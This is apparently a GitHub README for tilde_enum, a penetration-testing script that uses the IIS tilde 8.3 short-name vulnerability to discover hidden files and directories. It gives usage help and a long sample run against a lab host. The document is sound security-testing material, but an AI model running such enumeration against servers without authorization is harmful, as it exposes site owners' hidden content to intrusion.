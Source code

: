tilde_enum
==========

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln (https://soroush.secproject.com/blog/tag/iis-tilde-vulnerability/, http://www.acunetix.com/vulnerabilities/microsoft-iis-tilde-direc/, http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf) and tries to get you full file and directory names.

This is an attempt to take the cool POC scanner at https://github.com/irsdl/iis-shortname-scanner/tree/master/ and get you the rest of the file/directory names so you can retrieve them.

Feed this script a URL and also a word list of potential file/dir names. The script will look up the roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt (or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized by the vulnerability). You should still try to enumerate directories using a word list and [DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something. 

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the `dir /x` command. One of the columns will be the 8.3 name (if there is one).

Always enjoy feedback and suggestions.


Help
====
<pre>$ ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-c COOKIES] [-d DIRWORDLIST] [-f] [-p PROXY]
                     [-s SNOOZE] [-u URL] [-v] [-w WORDLIST]
                     [--no-check-certificate]

Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help            show this help message and exit
  -c COOKIES            cookies to be used in the request
  -d DIRWORDLIST        an optional wordlist for directory name content
  -f                    force testing of the server even if the headers do not
                        report it as an IIS system
  -p PROXY              Use a proxy host:port
  -s SNOOZE             time in seconds to sleep/wait between requests
  -u URL                URL to scan
  -v                    verbose output
  -w WORDLIST           the word list to be used for guessing files
  --no-check-certificate
                        don't verify the SSL certificate
</pre>


Sample Output
======
<pre>
$  ./tilde_enum.py -u http://iis /pentest/fuzzdb/discovery/predictableres/raft-small-words-lowercase.txt -d /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt
[-]  Testing with dummy file request http://iis/mhxWjUz25u.htm
[-]	URLNotThere -> HTTP Code: 404, Response Length: 1635
[-]  Testing with user-submitted http://iis
[-]	URLUser -> HTTP Code: 200, Response Length: 1433
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability (IIS/5|6.x)..
[+]  Found a new directory: aspnet
[+]  Found a new directory: copyof
[+]  Found a new directory: docume
[+]  Found a new directory: javasc
[+]  Found file:  parame . xml
[+]  Found file:  765432 . htm
[+]  Found file:  _vti_i . htm
[+]  Found a new directory: _vti_s
[-]  Finished doing the 8.3 enumeration for /.
[-]  Now starting the word guessing using word list calls
[*]  Found one! (Size 1307) http://iis/parameter.xml
[*]  Found one! (Size 1754) http://iis/_vti_inf.html
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[?]  URL: (Size 218) http://iis/aspnet_client/ with Response: HTTP Error 403: Forbidden
[*]  Found one! (Size 1433) http://iis/documentation/
[*]  Found one! (Size 1433) http://iis/javascript/
[-]  Now starting recursive 8.3 enumeration into the directories we found.
[-]  Diving into the http://iis/documentation/ dir.
[+]  Found file:  advert . htm
[+]  Found file:  defaul . asp
[-]  Finished doing the 8.3 enumeration for /documentation/.
[*]  Found one! (Size 227) http://iis/documentation/advertising.html
[*]  Found one! (Size 1433) http://iis/documentation/default.aspx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[-]  Diving into the http://iis/javascript/ dir.
[+]  Found file:  321 . xls
[-]  Finished doing the 8.3 enumeration for /javascript/.
[-]  File name (321) too short to look up in word list. We will use it to bruteforce.
[*]  Found one! (Size 227) http://iis/javascript/321.xlsx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.

---------- FINAL OUTPUT ------------------------------
[*]  We found files for you to look at:
[*]      http://iis/_vti_inf.html  - Size 1754
[*]      http://iis/documentation/advertising.html  - Size 227
[*]      http://iis/documentation/default.aspx  - Size 1433
[*]      http://iis/javascript/321.xlsx  - Size 227
[*]      http://iis/parameter.xml  - Size 1307

[*]  Here are all the 8.3 names we found.
[*]  If any of these are 6 chars and look like they should work,
        try the file name with the first or second instead of all of them.
[*]      http://iis/documentation/advert~1.htm
[*]      http://iis/documentation/defaul~1.asp
[*]      http://iis/765432~1.htm
[*]      http://iis/_vti_i~1.htm
[*]      http://iis/parame~1.xml
[*]      http://iis/javascript/321~1.xls

[*]  We found directories for you to look at:
[*]      http://iis/documentation/  - Size 1433
[*]      http://iis/javascript/  - Size 1433

[*]  Here are all the directory names we found. You may wish to try to guess them yourself too.
[?]      http://iis/_vti_s~1/
[?]      http://iis/aspnet~1/
[?]      http://iis/copyof~1/
[?]      http://iis/docume~1/
[?]      http://iis/javasc~1/

[*]  We found directory URLs you should check out. They were not HTTP response code 200s.
[?]      HTTP Resp 403 - http://iis/aspnet_client/  - Size 218
</pre>

# License
<a rel="license" href="http://creativecommons.org/licenses/by-sa/4.0/"><img alt="Creative Commons License" style="border-width:0" src="https://i.creativecommons.org/l/by-sa/4.0/88x31.png" /></a><br />This work is licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-sa/4.0/">Creative Commons Attribution-ShareAlike 4.0 International License</a>.
